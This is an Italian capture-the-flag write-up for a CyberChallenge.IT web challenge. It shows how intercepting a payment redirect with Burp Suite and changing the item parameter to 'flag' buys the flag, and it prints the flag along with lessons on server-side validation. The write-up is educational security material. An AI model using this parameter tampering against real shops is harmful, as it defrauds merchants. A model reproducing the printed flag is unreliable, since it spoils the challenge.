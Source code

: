# Writeup: WS_02 - Flagify - 1

## Descrizione 📝
Abbiamo due siti correlati:
1. **flagify-1.challs.cyberchallenge.it** – Un negozio online in cui si può acquistare la *flag* (costa 10 crediti).
2. **payflag-1.challs.cyberchallenge.it** – Un servizio di pagamento “Payflag”.

Quando proviamo a comprare un articolo, il flusso di pagamento ci fa passare da **flagify-1** a **payflag-1**, ma inizialmente non sembra possibile acquistare la *flag* con Payflag. Analizzando le richieste HTTP con Burp Suite, scopriamo che nell’ultimo passaggio è presente un parametro `item` modificabile.

## Flusso con Burp Suite 🎯

1. **Richiesta POST a /list**  
   ```http
   POST /list HTTP/1.1
   Host: flagify-1.challs.cyberchallenge.it
   ...
   method=2&item=Alert
   ```
   - `method=2` indica il pagamento con Payflag.
   - `item=Alert` è l’articolo selezionato (in questo esempio).

2. **Richiesta GET a /pay?item=Alert**  
   ```http
   GET /pay?item=Alert HTTP/1.1
   Host: flagify-1.challs.cyberchallenge.it
   ...
   ```
   - Viene preparata la fase di pagamento per “Alert”.

3. **Richiesta Finale (Redirect)**  
   Alla fine, c’è un `GET` simile a:
   ```http
   GET /redirect?transaction=a07b4ecac8bd986528455661a4b2cc01&item=Alert HTTP/1.1
   Host: flagify-1.challs.cyberchallenge.it
   ...
   ```
   - **Qui** intercettiamo con Burp Suite e sostituiamo `item=Alert` con `item=flag`.
   - L’applicazione allora crede che stiamo acquistando la *flag*, anche se all’inizio avevamo selezionato un altro articolo.

---

## Ottenimento della Flag
Dopo la manipolazione di `item=Alert` → `item=flag`, la transazione va a buon fine e il server ci permette di scaricare o visualizzare la flag.

La flag è:
```
CCIT{g0go_fL4w_go_wr0ng}
```

---

## Lezioni Apprese 📚
1. **Parameter Tampering**: Cambiare i parametri nelle richieste finali del flusso di pagamento permette di acquistare articoli diversi da quelli scelti.  
2. **Burp Suite**: Essenziale per intercettare e modificare le richieste HTTP.  
3. **Mancata Validazione**: L’applicazione dovrebbe verificare server-side la corrispondenza tra articolo selezionato e articolo pagato.

## Tools Utilizzati 🛠️
- **Burp Suite**: Per catturare e modificare le richieste (`POST /list`, `GET /pay?item=...`, `GET /redirect?transaction=...&item=...`).  
- **Browser**: Per navigare nel sito e avviare la procedura di acquisto.

---

*Writeup by Luca Crippa - Last Updated: 2024*
